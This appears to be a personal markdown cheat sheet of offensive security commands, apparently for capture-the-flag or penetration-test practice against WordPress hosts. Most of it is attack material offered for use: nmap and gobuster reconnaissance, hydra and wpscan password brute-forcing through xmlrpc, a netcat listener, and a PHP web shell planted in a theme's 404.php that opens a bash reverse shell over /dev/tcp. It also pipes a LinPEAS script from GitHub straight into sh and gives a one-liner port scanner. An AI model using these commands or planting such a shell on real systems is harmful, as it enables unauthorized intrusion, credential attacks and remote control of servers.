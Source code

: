 # Hacking Notes  

## Configuration files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Use of VPN | openvpn           |openvpn [FILE]            |
| Use of nmap | nmap           | nmap [IP]/[RANGE] [OPTIONS]            |
| UDP nmap scan | nmap           | nmap [IP]/[RANGE] -sU             |
| TCP nmap scan (no ping) | nmap           | nmap [IP]/[RANGE] -Pn             |
| Directory discovery | gobuster           | gobuster dir -u [URL] -w [WORDLIST e.g. /usr/share/wordlists/dirb/common.txt


## Web files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Robots File | robots.txt           | [IP]/robots.txt        |

## Data format: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Get only strings | strings           | strings [FILE]        |

## Wordpress files
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| Conf backupfile | [file].swp        |

## Access
|Description                | Syntax Path|                     
|----------------|-------------------------------|
|ftp | ftp [IP]       |
|ssh | ssh [IP]       |

## Dictionaries
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| cewl (Custom Word List generator) | cewl [URL] > [PWDFILE]       |


## Bruteforce

|Description                | Syntax Path|                     
|----------------|-------------------------------|
| hydra | hydra -L [USRFILE] -P [PWDFILE] [IP] -s [PORT] http-post-form "[url]:method=wp.getUsersBlogs&user=^USER^&password=^PASS^:Invalid" -V       |
| wordpress wpscan (using xmlrpc.php) | wpscan --url [URL] -U [USER] -P [PWDFILE]       |


## Privilege Escalation
Listen: nc -lvnp [PORT]

PHP Shell (Trigger)

```
<?php

if (isset($_GET['trigger'])) {
    exec("/bin/bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'");
}
Example: http://[IP]/wordpress/wp-content/themes/[THEME]/404.php?trigger=1)
```

LinPEAS
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## Port Scanning

One-liner
'''
python3 -c 'import socket,ipaddress;[print(f"{ip} Port {p} OPEN") for ip in list(ipaddress.IPv4Network("[RANGE]").hosts())[100:200] for p in range(1,65535) if not socket.socket().connect_ex((str(ip),p))]' 
'''
